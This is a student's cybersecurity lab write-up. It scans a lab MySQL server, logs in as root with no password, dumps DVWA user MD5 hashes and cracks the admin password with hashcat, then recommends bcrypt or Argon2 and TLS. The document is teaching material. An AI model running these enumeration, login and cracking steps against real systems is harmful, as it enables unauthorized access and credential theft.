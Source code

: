 
# 🔐 Lab 2: Cryptographic Attacks – Cracking Weak Password Hashes & Exploiting Poor Authentication in Databases

**👨‍💻 Author**: Raja Muhammad Haiqal Shah Bin Raja Muzairil Shah  
**📅 Date**: 25 April 2025  
**⏳ Time Allocation**: 3 Hours  
**📝 Total Marks**: 15  
**🧩 Lab Type**: Hands-On + Report + Demo/Debrief  

---

## 🧠 A. Lab Objectives

1. Identify and exploit cryptographic weaknesses in database authentication and password storage.
2. Perform offline hash cracking after discovering password hashes in a vulnerable database.
3. Investigate real-world cryptographic failures and propose secure solutions.
4. Document findings clearly in GitHub (Markdown) and present a short demo/debrief.

---

## 🛠️ Tools Used

- `Kali Linux` (OS)
- `nmap` (Service enumeration)  
- `mysql-client` (Database access)  
- `hashid` / `hash-identifier` (Hash detection)  
- `hashcat` / `john` (Hash cracking)  
- `wireshark` (Traffic analysis – optional)

---

## 🌐 IP Addresses

- **Attacker**: 192.168.106.130  
- **Victim**: 192.168.106.138  

---

## 🧩 B. Lab Tasks

### 1. 🔍 Service Enumeration and Initial Access

**Command Used:**

```bash
nmap -sV -p 3306 192.168.106.138 > nmap.txt
```

- Identified that **MySQL** was running on port **3306**.
- Confirmed open port and service details were written to `nmap.txt`.

![nmap](Screenshots/nmap.png)

**Connection Attempt:**

```bash
mysql -h 192.168.106.138 -u root --password=""
```

**Error Encountered:**
```
ERROR 2026 (HY000): TLS/SSL error: wrong version number
```

**Fix:**

```bash
mysql -h 192.168.106.138 -u root --password="" --ssl=0
```

![fixcommand](Screenshots/fixcommand.png)

✅ **Resolved**: TLS version mismatch between client and server.

> **Root Cause**:  
> MySQL < 5.7.11 does not support `--ssl-mode`. Use `--ssl=0` instead to disable SSL handshake.

---

### 2. 🧑‍💻 Enumeration of Users and Authentication Weaknesses

```sql
USE dvwa;
SHOW TABLES;
+----------------+
| Tables_in_dvwa |
+----------------+
| guestbook      |
| users          |
+----------------+

SELECT * FROM users;
```

- Found the `users` table containing usernames and **MD5 password hashes**.
- Chose user `admin` for further cracking.

![usernpass](Screenshots/usernpass.png)

**Saved hash to file:**

```bash
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hash.txt
```

> ⚠️ **Reflection Question**:  
> Is accessing a database with no password a cryptographic failure?  
> ✅ **Yes**. It violates secure authentication practices by allowing unauthorized access due to missing or weak credentials.

---

### 3. 🔍 Password Hash Discovery & Identification

Used `hash-identifier`:

```bash
hash-identifier 5f4dcc3b5aa765d61d8327deb882cf99
```

- Detected as **MD5** hash.

![hashidentifier](Screenshots/hashidentifier.png)

> ⚠️ **Reflection Question**:  
> What cryptographic weaknesses exist in this hashing method?  
> - MD5 is **unsalted** and **fast**, making it susceptible to rainbow table and brute-force attacks.

---

### 4. 🧨 Offline Hash Cracking

Used **hashcat** to brute-force the MD5 hash:

```bash
hashcat -m 0 hash.txt --show > cracked_results.txt
```

✅ **Result:**
```text
5f4dcc3b5aa765d61d8327deb882cf99:password
```

![hashcatresult](Screenshots/hashcatresult.png)

**Cracked Password**: `password`

> Password entropy is low. "password" is one of the most common weak passwords.

---

### 5. 🔐 Cryptographic Analysis & Mitigation

#### 🔎 Identified Weaknesses:

| Component     | Issue                         |
|---------------|-------------------------------|
| Authentication | Empty/Weak passwords          |
| Hashing        | MD5 without salt              |
| Transmission   | Plaintext over network        |

#### 🔧 Recommendations:

- **Authentication**: Enforce strong password policies, apply rate-limiting or use `fail2ban`.
- **Hashing**: Replace MD5 with **bcrypt** or **Argon2** (both are memory-hard and slow).
- **Transmission**: Enable **SSL/TLS** encryption for database connections.

#### 🕵️ Wireshark Observation:

Captured raw data during database login. Password hashes and queries visible in plaintext.

![wireshark](Screenshots/wirehark.png)

---

## ✅ Conclusion

This lab demonstrated real-world cryptographic vulnerabilities that still exist in poorly configured systems. Weak authentication, outdated hashing, and unencrypted transmissions can all be exploited easily by attackers.

Securing such systems involves:
- Enforcing authentication best practices,
- Adopting strong, salted password hashing,
- Ensuring secure encrypted communication channels.

**Always audit legacy systems for these cryptographic flaws.** 🔐

---

🧠 *"Attack like a black hat. Defend like a white hat."* – Haiqal
